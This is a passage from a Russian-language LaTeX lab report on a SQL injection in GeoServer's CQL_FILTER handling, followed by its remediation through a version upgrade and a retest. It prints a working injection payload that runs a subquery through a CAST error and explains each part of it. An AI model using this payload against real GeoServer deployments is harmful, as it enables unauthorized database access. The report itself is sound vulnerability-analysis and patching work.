  
\includegraphics[width=.9\textwidth]{cve.png}
\end{center}

Критическая SQL‑инъекция (CWE‑89) в цепочке GeoServer при трансляции CQL/ECQL‑фильтров в SQL для JDBC (например, PostGIS).

Корень: недостаточная валидация и экранирование пользовательского ввода в CQL\_FILTER. Часть конструкций фильтра попадала в итоговый SQL без безопасной параметризации.

\begin{lstlisting}
  strStartsWith(name,'x'') = true
    and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true
\end{lstlisting}

\begin{itemize}
  \item strStartsWith(name,'x'') = true — легитимное начало, но '' закрывает строковой литерал/нарушает синтаксис фильтра, подготавливая почву для SQL-инъекции.
  \item and 1=(SELECT CAST ((SELECT version()) AS integer)) — внедрённый подзапрос к БД.
  \item -- — SQL‑комментарий, «обрубает» остаток сгенерированного SQL
\end{itemize}

Фильтр конструирует такую строку, чтобы при рендеринге в SQL парсер/рендерер GeoTools («FilterToSQL») включил подзапрос как часть WHERE, выполняя его на БД.
\section{Устранение уязвимости}
На основе анализа связанных репозиториев, находим исправленную версию данного приложения.

Для устранения уязвимости выбрано: Обновление версии ПО в файле docker-compose.yml на ту, где уязвимость
исправлена.

Устанавливаем версию 2.22.2.
\begin{center}
  
\includegraphics[width=.7\textwidth]{dok}
\end{center}
% \begin{lstlisting}
%   git clone https://github.com/geoserver/geoserver.git
%   cd geoserver
%   mvn clean install
% \end{lstlisting}
Делаем повторный запрос с инъекцией.

\begin{center}
  
\includegraphics[width=.7\textwidth]{fix}
\end{center}

Атака теперь не проходит. Исправленное приложение возвращает ошибки.
\\ \\ 
В коде явно видна проблема при билде sql запроса через StringBuilder, что равнозначно простому склеиванию строк без экранирования.
\begin{center}
